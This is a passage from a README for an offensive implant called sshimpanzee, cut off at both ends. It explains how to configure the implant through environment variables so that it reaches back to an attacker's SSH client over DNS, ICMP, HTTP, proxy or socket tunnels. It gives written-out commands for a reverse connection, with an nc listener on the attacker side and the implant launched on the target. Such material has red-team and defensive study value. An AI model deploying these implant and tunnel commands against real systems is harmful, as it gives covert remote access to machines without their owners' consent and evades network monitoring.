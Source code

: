 ```yaml
    enabled: False
    name: python
    exec: /usr/bin/python -c "print('python code')"
    is_internal: False
```


## Usage 

At runtime, sshimpanzee binary is configured through environment variable.
The `MODE` variable allows user to select between compiled tunnels. 
Every tunnels can be configured through environment variables. 
For example, to get a classic reverse connect to 127.0.0.1:8080 use the following:
```
MODE=socks REMOTE=127.0.0.1 PORT=8080 ./sshimpanzee
```

> It is possible to run sshimpanzee in debug mode with -d.
> In debug mode sshimpanzee will stay in foreground.

### Tunnels 

Currently sshimpanzee support several ways for the implant to reach out to the attacker ssh client:  
- DNS Tunnelling using dns2tcp protocol   
- Proxy :  HTTP/SOCKS4/SOCKS5   
- Sockets : (might be usefull if you want to implement your own tunnels)   
- ICMP tunnel   
- HTTP Encapsulation

### Sock Connection

1) Run ssh on client side as follow:

``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 8080" -i CLIENT
```


2) Run sshimpanzee on target :
```
MODE=sock REMOTE=127.0.0.1 PORT=8080 ./sshimpanzee 
```

Other examples :
```
MODE=sock REMOTE=127.0.0.1 PORT=8080 SSHIM_LISTEN= ./sshimpanzee  # bind and listen to 127.0.0.1:8080

MODE=sock UNIXPATH=/tmp/sock SSHIM_UNIX ./sshimpanzee # Connect to unix socket /tmp/sock
MODE=sock UNIXPATH=/tmp/sock SSHIM_UNIX= SSHIM_LISTEN= ./sshimpanzee # Bind and listen to /tmp/sock unix socket 
```

### Connection through proxy
1) Run ssh on client side as follow:
